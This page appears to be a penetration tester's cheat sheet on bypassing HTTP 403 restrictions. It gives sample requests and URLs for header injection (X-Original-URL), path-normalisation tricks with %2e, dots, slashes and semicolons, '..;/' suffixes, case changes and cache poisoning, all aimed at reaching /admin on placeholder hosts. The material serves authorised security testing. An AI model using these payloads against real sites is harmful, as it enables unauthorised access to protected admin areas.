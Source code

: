 ```yaml
---
title: "Bypass 403 (Forbidden)"
author: ["4shen0ne"]
lastmod: 2024-12-14T01:40:07+08:00
draft: false
---
```


## Using "X-Original-URL" header {#using-x-original-url-header}

```nil
GET /admin HTTP/1.1
Host: target.com
```

Try this to bypass

```nil
GET /anything HTTP/1.1
Host: target.com
X-Original-URL: /admin
```


## Appending **%2e** after the first slash {#appending-2e-after-the-first-slash}

```nil
http://target.com/admin => 403
```

Try this to bypass

```nil
http://target.com/%2e/admin => 200
```


## Try add dot (.) slash (/) and semicolon (;) in the URL {#try-add-dot--dot--slash-----and-semicolon-----in-the-url}

```nil
http://target.com/admin => 403
```

Try this to bypass

```nil
http://target.com/secret/. => 200
http://target.com//secret// => 200
http://target.com/./secret/.. => 200
http://target.com/;/secret => 200
http://target.com/.;/secret => 200
http://target.com//;//secret => 200
```


## Add "..;/" after the directory name {#add-dot-dot-after-the-directory-name}

```nil
http://target.com/admin
```

Try this to bypass

```nil
http://target.com/admin..;/
```


## Try to uppercase the alphabet in the url {#try-to-uppercase-the-alphabet-in-the-url}

```nil
http://target.com/admin
```

Try this to bypass

```nil
http://target.com/aDmIN
```


## Via Web Cache Poisoning {#via-web-cache-poisoning}

```nil
GET /anything HTTP/1.1
Host: victim.com
X­-Original-­URL: /admin
```


## Tools {#tools}

-   [Bypass-403 | Go script for
    bypassing 403 forbidden](https://github.com/daffainfo/bypass-403)


## References {#references}

-   [[cite/t:@iam_j0ker](https://twitter.com/iam_j0ker)]
-   [Hacktricks](https://book.hacktricks.xyz/pentesting/pentesting-web)

